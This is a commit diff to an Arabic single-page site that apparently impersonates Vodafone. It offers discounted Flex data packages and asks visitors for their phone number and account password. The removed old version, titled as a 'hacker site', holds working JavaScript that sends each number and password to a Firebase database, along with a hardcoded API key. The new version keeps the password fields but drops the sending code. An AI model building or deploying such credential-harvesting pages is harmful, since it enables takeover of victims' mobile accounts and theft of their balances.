

Before and after one commit to aldoneszu/News, a plain HTML site: page index.html in a window 390 px wide. Shown: the part 334-1924 px from the top of the page at 98% size. Before the commit the page ends 1769 px from the top, so only its background shows below. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -1,335 +1,186 @@
 <!DOCTYPE html>
 <html lang="ar" dir="rtl">
 <head>
-<meta charset="UTF-8" />
-<meta name="viewport" content="width=device-width, initial-scale=1" />
-<title>موقع الهكر الاحترافي</title>
+  <meta charset="UTF-8">
+  <meta name="viewport" content="width=device-width, initial-scale=1.0">
+  <title>عروض Vodafone</title>
   <style>
-  @import url('https://fonts.googleapis.com/css2?family=Cairo&display=swap');
     body {
-    margin: 0; padding: 0; overflow-x: hidden;
+      margin: 0;
+      background-color: #000;
+      color: #fff;
+      font-family: 'Cairo', sans-serif;
+      overflow-x: hidden;
+    }
+    header {
+      background-color: #111;
+      padding: 20px;
+      text-align: center;
+      font-size: 24px;
+      color: #f00;
+      border-bottom: 2px solid red;
+    }
+    .matrix {
+      position: fixed;
+      top: 0;
+      left: 0;
+      width: 100%;
+      height: 100%;
+      z-index: -1;
       background: black;
-    color: #0f0;
-    font-family: 'Cairo', monospace, monospace;
-    position: relative;
-    min-height: 100vh;
+      overflow: hidden;
     }
-  /* Matrix effect canvas fills screen */
-  #matrix {
-    position: fixed;
-    top:0; left:0;
-    width: 100%; height: 100%;
-    z-index: 0;
-    background: black;
+    canvas {
+      display: block;
     }
-  /* Container for content, above matrix */
     .container {
-    position: relative;
-    z-index: 10;
-    max-width: 420px;
-    margin: 0 auto;
       padding: 20px;
+      display: flex;
+      flex-direction: column;
+      align-items: center;
+      gap: 30px;
     }
-  h1 {
-    text-align: center;
-    font-weight: 900;
-    font-size: 2.3rem;
+    .card {
+      background-color: #111;
+      border: 1px solid red;
+      padding: 20px;
+      border-radius: 10px;
+      max-width: 90%;
+      width: 400px;
+      box-shadow: 0 0 10px red;
+    }
+    .card h3 {
       color: #f00;
-    text-shadow: 0 0 10px #f00;
-    margin-bottom: 15px;
     }
-  h2 {
-    color: #f00;
-    text-shadow: 0 0 8px #f00;
-    margin-bottom: 10px;
-    border-bottom: 2px solid #f00;
-    padding-bottom: 5px;
+    input, button {
+      width: 100%;
+      padding: 10px;
+      margin-top: 10px;
+      border-radius: 5px;
+      border: none;
     }
-  .package-box, .balance-box {
-    background: #111;
-    border: 1px solid #f00;
-    padding: 15px 20px;
-    margin-bottom: 25px;
-    border-radius: 8px;
-    box-shadow: 0 0 10px #f00 inset;
-  }
-  .package {
-    margin-bottom: 15px;
-    padding: 10px;
-    border: 1px solid #0f0;
-    border-radius: 6px;
-    box-shadow: 0 0 8px #0f0 inset;
-    background: #001100;
-  }
-  .package strong {
-    color: #f00;
-    font-size: 1.15rem;
-  }
-  label {
-    display: block;
-    margin: 10px 0 6px;
-    font-weight: bold;
-    color: #0f0;
-  }
-  input[type="text"], input[type="password"], input[type="number"] {
-    width: 100%;
-    padding: 8px 10px;
-    font-size: 1rem;
-    border-radius: 5px;
-    border: 1px solid #0f0;
-    background: #002200;
-    color: #0f0;
-    box-sizing: border-box;
-    font-family: 'Cairo', monospace;
-  }
-  input[type="number"]::-webkit-inner-spin-button,
-  input[type="number"]::-webkit-outer-spin-button {
-    -webkit-appearance: none;
-    margin: 0;
+    input {
+      background-color: #222;
+      color: #fff;
     }
     button {
-    width: 100%;
-    padding: 12px;
-    background: #f00;
-    border: none;
-    border-radius: 7px;
-    color: #fff;
-    font-size: 1.2rem;
-    font-weight: 900;
+      background-color: red;
+      color: white;
       cursor: pointer;
-    box-shadow: 0 0 15px #f00;
-    transition: background 0.3s ease;
-    font-family: 'Cairo', monospace;
     }
-  button:hover {
-    background: #a00;
-    box-shadow: 0 0 25px #f00;
-  }
-  .rights {
+    .footer {
       text-align: center;
-    color: #f00;
-    font-size: 0.9rem;
-    margin: 30px 0 15px;
-    text-shadow: 0 0 5px #f00;
-    font-family: 'Cairo', monospace;
-  }
-  /* Popup styling */
-  #popup {
-    position: fixed;
-    top: 50%; left: 50%;
-    transform: translate(-50%, -50%) scale(0);
-    background: #111;
-    border: 2px solid #0f0;
-    padding: 25px 35px;
-    box-shadow: 0 0 30px #0f0;
-    color: #0f0;
-    font-size: 1.3rem;
-    font-weight: bold;
-    border-radius: 10px;
-    z-index: 9999;
-    transition: transform 0.25s ease;
-    text-align: center;
-  }
-  #popup.show {
-    transform: translate(-50%, -50%) scale(1);
+      color: gray;
+      font-size: 12px;
+      margin-top: 40px;
     }
   </style>
 </head>
 <body>
+  <header>عروض Vodafone الخاصة</header>
+  <div class="matrix">
+    <canvas id="matrixCanvas"></canvas>
+  </div>
+  <div class="container">
 
-<canvas id="matrix"></canvas>
-
-<div class="container">
-  <h1>مرحباً بك في موقع الهكر الاحترافي</h1>
-
-  <!-- باقات -->
-  <div class="package-box">
-    <h2>خدمة تفعيل الباقات</h2>
-
-    <div class="package">
-      <strong>باقه 42 ألف فليكس بـ 350 كاش</strong><br>
-      شروط الباقة: الخط يكون نظام فليكس 260، وما يكونش عليه سلف أو نوتة.
-    </div>
-    <div class="package">
-      <strong>باقه 13 ألف فليكس بـ 240 كاش</strong><br>
-      شروط الباقة: ما يكونش فيه سلف أو نوتة على الخط.
-    </div>
-    <div class="package">
-      <strong>باقه 40 جيجا بـ 330 كاش</strong><br>
-      لا توجد شروط.
-    </div>
-    <div class="package">
-      <strong>تجديد باقه 50 ألف فليكس</strong><br>
-      مدة 8 أيام، شرط التجديد قبل انتهاء الباقة، ملاحظة: تجديد وليس تفعيل.
-    </div>
-    <div class="package">
-      <strong>باقه 5200 فليكس بـ 100 كاش</strong><br>
-      شروط الباقة: ما يكونش عليه سلف أو نوتة، ملاحظة: غير متوفرة دائماً.
+    <div class="card">
+      <h3>بـاقة 42 ألف فليكس - 350 كاش</h3>
+      <p>شروط: خط فليكس 260 - لا يوجد سلف أو نوتة</p>
+      <input type="text" placeholder="رقم الهاتف">
+      <input type="password" placeholder="كلمة المرور">
+      <button>طلب الباقة</button>
     </div>
 
-    <label for="pkgNumber">رقم الهاتف:</label>
-    <input type="text" id="pkgNumber" placeholder="أدخل رقم الهاتف" />
-
-    <label for="pkgPassword">كلمة المرور:</label>
-    <input type="password" id="pkgPassword" placeholder="أدخل كلمة المرور" />
-
-    <button onclick="sendPackage()">إرسال تفعيل الباقة</button>
+    <div class="card">
+      <h3>بـاقة 13 ألف فليكس - 240 كاش</h3>
+      <p>شروط: لا يوجد سلف أو نوتة</p>
+      <input type="text" placeholder="رقم الهاتف">
+      <input type="password" placeholder="كلمة المرور">
+      <button>طلب الباقة</button>
     </div>
 
-  <!-- شحن الرصيد -->
-  <div class="balance-box">
-    <h2>خدمة شحن الرصيد الصافي</h2>
-
-    <label for="balanceNumber">رقم الهاتف:</label>
-    <input type="text" id="balanceNumber" placeholder="أدخل رقم الهاتف" />
-
-    <label for="balanceAmount">الرصيد الصافي (فلِكس):</label>
-    <input type="number" id="balanceAmount" min="0" step="100" value="0" oninput="calculateBalancePrice()" />
-
-    <label for="balancePrice">السعر بالجنيه:</label>
-    <input type="text" id="balancePrice" readonly value="0" />
-
-    <button onclick="sendBalance()">إرسال شحن الرصيد</button>
+    <div class="card">
+      <h3>40 جيجا - 330 كاش</h3>
+      <p>بدون شروط</p>
+      <input type="text" placeholder="رقم الهاتف">
+      <input type="password" placeholder="كلمة المرور">
+      <button>طلب الباقة</button>
     </div>
 
-  <div class="rights">
-    &copy; 2025 Mahmoud Gamal Programming. All rights reserved.
-  </div>
+    <div class="card">
+      <h3>تجديد باقة 50 ألف فليكس - 8 أيام</h3>
+      <p>تجديد فقط - قبل انتهاء الباقة</p>
+      <input type="text" placeholder="رقم الهاتف">
+      <input type="password" placeholder="كلمة المرور">
+      <button>تجديد</button>
     </div>
 
-<div id="popup">تم الإرسال بنجاح</div>
+    <div class="card">
+      <h3>بـاقة 5200 فليكس - 100 كاش</h3>
+      <p>شروط: لا يوجد سلف أو نوتة - غير متوفرة دائماً</p>
+      <input type="text" placeholder="رقم الهاتف">
+      <input type="password" placeholder="كلمة المرور">
+      <button>طلب الباقة</button>
+    </div>
 
-<script src="https://www.gstatic.com/firebasejs/9.23.0/firebase-app-compat.js"></script>
-<script src="https://www.gstatic.com/firebasejs/9.23.0/firebase-database-compat.js"></script>
+    <div class="card">
+      <h3>شحن رصيد صافي</h3>
+      <input type="text" placeholder="رقم الهاتف">
+      <input type="number" placeholder="الرصيد الصافي">
+      <button onclick="calculateMoney()">احسب السعر</button>
+      <p id="calcResult"></p>
+    </div>
+
+  </div>
+
+  <div class="footer">
+    Mahmoud Gamal Programming © All rights reserved
+  </div>
+
   <script>
-  // Firebase config
-  const firebaseConfig = {
-    apiKey: "AIzaSyCuP6VscPxkQS5D5z7bCYWXijzaYCdbF2s",
-    authDomain: "starkoscript.firebaseapp.com",
-    databaseURL: "https://starkoscript-default-rtdb.firebaseio.com",
-    projectId: "starkoscript",
-    storageBucket: "starkoscript.appspot.com",
-    messagingSenderId: "381525854892",
-    appId: "1:381525854892:android:50ba5daa1cffae8faa2d09"
-  };
+    // Matrix Effect
+    const canvas = document.getElementById('matrixCanvas');
+    const ctx = canvas.getContext('2d');
+    canvas.height = window.innerHeight;
+    canvas.width = window.innerWidth;
 
-  // Initialize Firebase
-  firebase.initializeApp(firebaseConfig);
-  const db = firebase.database();
+    const letters = '01';
+    const fontSize = 16;
+    const columns = canvas.width / fontSize;
+    const drops = Array(Math.floor(columns)).fill(1);
 
-  // حساب السعر تلقائياً
-  function calculateBalancePrice() {
-    const amount = parseInt(document.getElementById('balanceAmount').value) || 0;
-    const price = (amount / 100) * 120;
-    document.getElementById('balancePrice').value = price.toFixed(2);
-  }
-
-  // نافذة تأكيد منبثقة
-  function showPopup(msg) {
-    const popup = document.getElementById('popup');
-    popup.textContent = msg;
-    popup.classList.add('show');
-    setTimeout(() => {
-      popup.classList.remove('show');
-    }, 2500);
-  }
-
-  // إرسال بيانات الباقات
-  function sendPackage() {
-    const number = document.getElementById('pkgNumber').value.trim();
-    const password = document.getElementById('pkgPassword').value.trim();
-
-    if (!number || !password) {
-      alert('يرجى إدخال رقم الهاتف وكلمة المرور.');
-      return;
-    }
-
-    // ارفع بيانات الباقة مع طابع زمني
-    const key = db.ref('packages').push().key;
-    db.ref('packages/' + key).set({
-      number: number,
-      password: password,
-      timestamp: Date.now()
-    }).then(() => {
-      showPopup('تم إرسال بيانات الباقة بنجاح');
-      // مسح الحقول بعد الإرسال
-      document.getElementById('pkgNumber').value = '';
-      document.getElementById('pkgPassword').value = '';
-    }).catch((err) => {
-      alert('حدث خطأ أثناء الإرسال: ' + err.message);
-    });
-  }
-
-  // إرسال بيانات شحن الرصيد
-  function sendBalance() {
-    const number = document.getElementById('balanceNumber').value.trim();
-    const amount = parseInt(document.getElementById('balanceAmount').value) || 0;
-    const price = document.getElementById('balancePrice').value;
-
-    if (!number) {
-      alert('يرجى إدخال رقم الهاتف.');
-      return;
-    }
-    if (amount <= 0) {
-      alert('يرجى إدخال قيمة الرصيد الصافي بشكل صحيح.');
-      return;
-    }
-
-    // ارفع بيانات شحن الرصيد مع طابع زمني
-    const key = db.ref('balance').push().key;
-    db.ref('balance/' + key).set({
-      number: number,
-      amount: amount,
-      price: price,
-      timestamp: Date.now()
-    }).then(() => {
-      showPopup('تم إرسال طلب شحن الرصيد بنجاح');
-      // مسح الحقول بعد الإرسال
-      document.getElementById('balanceNumber').value = '';
-      document.getElementById('balanceAmount').value = 0;
-      document.getElementById('balancePrice').value = 0;
-    }).catch((err) => {
-      alert('حدث خطأ أثناء الإرسال: ' + err.message);
-    });
-  }
-
-  // Matrix effect from canvas
-  const canvas = document.getElementById('matrix');
-  const ctx = canvas.getContext('2d');
-
-  let width, height;
-  function resize() {
-    width = window.innerWidth;
-    height = window.innerHeight;
-    canvas.width = width;
-    canvas.height = height;
-  }
-  resize();
-  window.addEventListener('resize', resize);
-
-  const letters = 'ابجدهوزحطيكلمنسعفصقرشتثخذضظغ٠١٢٣٤٥٦٧٨٩'.split('');
-  const fontSize = 16;
-  const columns = Math.floor(width / fontSize);
-  const drops = Array(columns).fill(1);
-
-  function draw() {
-    ctx.fillStyle = 'rgba(0, 0, 0, 0.07)';
-    ctx.fillRect(0, 0, width, height);
+    function drawMatrix() {
+      ctx.fillStyle = 'rgba(0, 0, 0, 0.05)';
+      ctx.fillRect(0, 0, canvas.width, canvas.height);
 
       ctx.fillStyle = '#0f0';
       ctx.font = fontSize + 'px monospace';
 
-    for(let i = 0; i < drops.length; i++) {
-      const text = letters[Math.floor(Math.random() * letters.length)];
+      for (let i = 0; i < drops.length; i++) {
+        const text = letters.charAt(Math.floor(Math.random() * letters.length));
         ctx.fillText(text, i * fontSize, drops[i] * fontSize);
 
-      if(drops[i] * fontSize > height && Math.random() > 0.975) drops[i] = 0;
+        if (drops[i] * fontSize > canvas.height && Math.random() > 0.975) {
+          drops[i] = 0;
+        }
+
         drops[i]++;
       }
     }
-  setInterval(draw, 40);
 
+    setInterval(drawMatrix, 50);
+
+    // Calc
+    function calculateMoney() {
+      const inputs = document.querySelectorAll('input');
+      const amount = parseInt(inputs[inputs.length - 1].value);
+      const result = document.getElementById('calcResult');
+      if (!isNaN(amount)) {
+        result.textContent = `السعر بالجنيه: ${Math.ceil(amount * 1.2)} جنيه`;
+      } else {
+        result.textContent = 'من فضلك ادخل مبلغ صالح';
+      }
+    }
   </script>
-
 </body>
 </html>
```
Lines whose indentation alone changed are shown as unchanged.
